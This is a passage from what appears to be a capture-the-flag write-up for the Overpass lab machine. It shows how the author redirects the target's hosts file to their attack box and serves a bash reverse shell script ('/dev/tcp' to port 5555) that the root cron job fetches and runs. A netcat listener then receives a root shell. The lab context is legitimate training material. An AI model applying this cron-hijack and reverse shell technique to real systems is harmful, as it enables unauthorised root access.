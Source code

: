 ```
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
It needs to be changed to reflect my local/attack box IP. 
```
127.0.0.1 localhost
127.0.1.1 overpass-prod
[Local IP] overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
Let me create a reverse shell in bash and place it within my local machine at ```/downloads/src/buildscript.sh```. 
```
echo "bash -i >& /dev/tcp/[Local IP]/5555 0>&1" > buildscript.sh
```
After creating the buildscript, I need to start up a python3 http server on port 80 in the parent directory of ```/downloads/src/buildscript.sh```for the remote machine to call with the crontab. 
```
sudo python3 -m http.server 80
```
Now, in a different terminal, I start a netcat listener on port 5555 to receive the reverse shell. 
```
nc -lnvp 5555
```
After a certain period of time, the job calls the build script, creates a reverse shell and escalates privilege! 

I can see the HTTP GET request by the Overpass machine to my local machine. 
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.118.191 - - [18/Feb/2022 08:00:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
```
In the terminal where my netcat listener is set up, I am dropped into a root shell. 
```
root@overpass-prod:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```


